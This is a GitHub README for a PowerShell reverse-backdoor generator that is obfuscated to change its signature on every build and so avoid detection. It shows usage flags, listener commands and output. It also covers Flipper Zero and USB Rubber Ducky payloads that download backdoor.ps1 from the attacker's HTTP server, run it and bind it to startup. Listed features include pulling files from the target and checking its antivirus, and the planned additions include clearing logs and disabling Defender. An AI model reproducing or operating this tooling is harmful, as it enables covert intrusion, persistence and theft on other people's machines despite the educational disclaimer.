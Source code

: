 ```
/******************************************************************************
 * DISCLAIMER: 
 * 
 * This program is intended for educational purposes only. By using this program,
 * you agree that you understand the potential risks associated with its use.
 * 
 * - This program should not be used on any system or network without proper 
 *   authorization. Unauthorized use is strictly prohibited.
 * 
 * - The creator of this program assumes no liability for any damages, legal 
 *   consequences, or loss of data caused by the use of this program.
 * 
 * - It is your responsibility to ensure that you comply with all applicable 
 *   laws and regulations while using this program.
 * 
 * Please use this program responsibly and ethically, and respect the privacy 
 * and security of others.
 *****************************************************************************/


```

# PShellBackdoorBitch
<br>
Reverse backdoor tool written in PowerShell and obfuscated with Python, providing a new signature after every build to avoid detection. The tool has the capability to create payloads for popular hacking devices such as Flipper Zero and Hak5 USB Rubber Ducky. Use this tool to test your system's defenses against advanced attack techniques.
```
<br>
Powershell Backdoor Generator

usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]



options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](#standard-backdoor)
* [Flipper Zero Backdoor](#flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](#usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)
* [Output of 5 Obfuscations](#output-of-5-obfuscations)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Play wav files from a URL
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Gather information about the target system's operating system
* Retrieve BIOS information from the target syste
* Check if an anti-virus software is installed and its current status
* Get Active TCP Clients
* Install Chocolatey, a popular package manager for Windows (https://chocolatey.org/)
* Check if common pentesting software is installed on the target system.

## Standard backdoor
``` bash
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

### Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux.
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(jdabs㉿kali)-[/home/jdabs/Documents]
└─PS> ./backdoor.ps1
```

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in the users temp directory, bind the backdoor to startup and then execute it. (Requires Admin)
     
## Flipper Zero Backdoor
Below will generate a file called powershell_backdoor.txt, which when triggered on the Flipper will fetch the backdoor from your computer over HTTP and execute it.
```
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --flipper powershell_backdoor --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
Below is a tutorial on how to generate an inject.bin file for the Hak5 USB Rubber ducky
```
 C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar

## To Do 
* Pull Recent RDP connections
* Change Wallpaper from URL
* Find Writeable Directories
* Clear Logs
* Disable Defender

## Output of 5 Obfuscations
Below is the sha1 hash of backdoor.ps1 after 5 builds.
```
1e158f02484e5c58d74c1507a1773392ffacfca2
6d18230a419195d0f77519abc0238768956cdd58
558a8cbac40239c9e6660a45cc8fc5d02b5057d7
caf4d0c8424eceb960d5f5c526e83ecd485c4ac9
947b57824917842d79f9cbcac8a795aa7c2f8a49
```
